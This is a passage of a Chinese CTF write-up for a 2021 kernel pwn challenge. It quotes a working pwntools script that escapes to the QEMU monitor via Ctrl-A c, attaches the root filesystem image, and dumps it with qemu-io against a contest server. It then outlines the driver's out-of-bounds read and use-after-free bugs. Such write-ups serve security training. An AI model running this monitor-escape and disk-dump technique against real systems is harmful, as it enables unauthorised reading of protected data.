 直接解压文件系统读取flag

另外：

> 找到一个脚本，但是本地发送`\x0ac`无法进入monitor复现，先贴着记录一下
>
> ```python
> from pwn import *
> from tqdm import trange
> import fuckpy3
> context(os='linux', arch='amd64', log_level='error')
> p = process(argv='./start.sh', raw=False)
> p = remote('82.157.40.132', 38500)
> def main():
>     ctrl_a = '\x01c'
>     p.send(ctrl_a)
>     s = b''
>     p.sendlineafter('(qemu)', 'stop')
>     # p.sendlineafter('(qemu)', 'xp/100000bc 0x000000')
>     p.sendlineafter('(qemu)', 'drive_add 0 file=/rootfs.img,id=flag,format=raw,if=none,readonly=on')
>     for i in trange(160):
>         p.sendlineafter('(qemu)', f'qemu-io flag "read -v {0x4000*i} 0x4000"')
>         p.recvuntil('\r\n')
>         data = p.recvuntil('ops/sec)\n', drop=True).split(b'\n')[:-2]
>         for d in data:
>             s += b''.join(d.split()[1:17]).unhex()
>     i = 160
>     p.sendlineafter('(qemu)', f'qemu-io flag "read -v {0x4000*i} 0x600"')
>     p.recvuntil('\r\n')
>     data = p.recvuntil('ops/sec)\n', drop=True).split(b'\n')[:-2]
>     for d in data:
>         s += b''.join(d.split()[1:17]).unhex()
>     with open('out.img','wb') as f:
>         f.write(s)
>     p.interactive()
> if __name__ == '__main__':
>     main()
> ```
>
> 来源
>
> [西湖论剑·2021中国杭州网络安全技能大赛---WP - Bit's Blog (xl-bit.cn)](https://www.xl-bit.cn/index.php/archives/732/)



#### 预期解

通过启动脚本可以知道开启了smep和kaslr保护

驱动文件就是简单的增删查改功能，只能通过`_kmalloc`申请最大0x20大小的内存，show存在越界读可以泄露地址，并且在释放的时候没有清空，可能造成UAF

但是在释放之后观察内存只能看到一堆奇怪的数据，而找不到next指针，是在编译时开启了FREELIST_HARDEN保护，并且多次分配内存的时候发现分配到的地址也总是不连续的，所以应该是将next指针加密保存了，并对freelist中的对象顺序进行了随机化
